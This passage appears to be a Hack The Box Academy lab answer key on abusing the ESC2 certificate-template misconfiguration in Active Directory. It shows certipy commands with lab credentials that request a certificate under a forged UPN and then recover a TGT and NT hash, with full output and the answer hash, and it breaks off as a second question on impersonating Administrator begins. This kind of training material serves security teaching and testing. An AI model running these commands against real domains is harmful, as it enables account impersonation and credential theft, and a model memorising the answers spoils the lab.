 ```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC2 -upn Matilda

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 68
[*] Got certificate with UPN 'Matilda'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'matilda.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Matilda` and `Un-PAC-the-hash` within it; students will attain the NT hash `7dfa0531d73101ca080c7379a9bff1c7`:

Code: shell

```shell
certipy auth -pfx matilda.pfx -domain lab.local
```

```shell-session
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy auth -pfx matilda.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: matilda@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'matilda.ccache'
[*] Trying to retrieve NT hash for 'matilda'
[*] Got hash for 'matilda@lab.local': aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7
```

Answer: `7dfa0531d73101ca080c7379a9bff1c7`

## ESC2

### Question 2

#### "Abuse the ESC2 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\Users\matilda\Desktop\flag.txt?"

To abuse `ESC2` and impersonate the `Administrator` account, students need to use the `req` command of `certipy`, specifying the template `ESC2` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell
